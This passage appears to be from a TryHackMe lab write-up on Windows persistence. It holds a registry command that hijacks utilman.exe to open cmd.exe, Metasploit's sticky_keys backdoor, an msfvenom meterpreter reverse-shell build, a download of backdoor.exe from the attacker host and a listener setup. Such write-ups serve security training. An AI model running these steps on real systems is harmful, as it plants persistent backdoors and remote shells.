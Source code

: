 ![](https://i.imgur.com/TNJVyjL.png)

Checking Task Scheduler you can see there is a task created and will run every time a users logs in.

![](https://i.imgur.com/299wh4y.png)

**Backdooring RDP**

An example would be using Metasploit to backdoor OSK (On-screen keyboard).

Metasploit sticky_keys module can be used:

![](https://i.imgur.com/0klqDqF.png)

Sign out/Lock the account and press Windows Key + U and choose On-screen keyboard. A CMD should be prompted.

![](https://i.imgur.com/3I7jaCp.png)

The same results can be achieved by editing the registry using the command:

`REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f`

```
kali@kali:~/CTFs/tryhackme/Persistence$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.106.222 LPORT=9002 -f exe > backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

`Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\tryhackme\Downloads\backdoor.exe"`

```ps1

PS C:\Users\tryhackme> cd .\Downloads\
PS C:\Users\tryhackme\Downloads> Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\tryhackme\Downloads\backdoor.exe"
PS C:\Users\tryhackme\Downloads> ls


    Directory: C:\Users\tryhackme\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/30/2020   1:32 PM          73802 backdoor.exe
```

```
kali@kali:~/CTFs/tryhackme/Persistence$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:9001
```